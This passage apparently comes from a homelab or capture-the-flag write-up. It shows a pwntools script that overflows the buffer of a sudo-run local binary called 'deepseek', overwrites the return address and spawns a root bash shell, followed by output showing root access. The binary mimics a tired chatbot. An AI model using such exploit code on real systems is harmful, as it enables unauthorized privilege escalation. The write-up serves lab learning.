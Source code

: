 ```bash
from pwn import *

# Configuration
BINARY_PATH = "/home/shinosawa/deepseek"
BUFFER_SIZE = 64
OFFSET = 72
EXECUTE_ADDR = 0x401266

def create_payload():
    """Create the buffer overflow payload"""
    padding = b'A' * OFFSET
    execute_addr_bytes = p64(EXECUTE_ADDR)
    return padding + execute_addr_bytes

def exploit():
    """Execute the buffer overflow attack"""
    print(f"[*] Creating payload with return address: {hex(EXECUTE_ADDR)}")
    payload = create_payload()
    
    # Start the process with sudo
    p = process(['sudo', BINARY_PATH])
    
    # Send the payload
    p.sendline(payload)
    
    # Upgrade the shell with a custom root prompt
    p.sendline(b'python3 -c "import pty; pty.spawn(\'/bin/bash --rcfile <(echo \"PS1=\\\"# \\\"\")\')"')
    
    # Switch to interactive mode
    p.interactive()

if __name__ == "__main__":
    exploit()
```
{: .nolineno }

___

## **9️⃣ Root Access**

The script provide me better handling of root access in an interactive mode 👾

**Output** : 

```bash
homelab:~$ python3 exploit1.py 
[*] Creating payload with return address: 0x401266
[+] Starting local process '/usr/bin/sudo': pid 6748
[*] Switching to interactive mode
>>> <think>
Emm, I'm so tired and don't want to answer any questions.
</think>

Thinking has stopped.
The server is busy, please try again later.
[*] in execute()
[*] running shell
$ whoami
root
$ id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
$ cd ~
```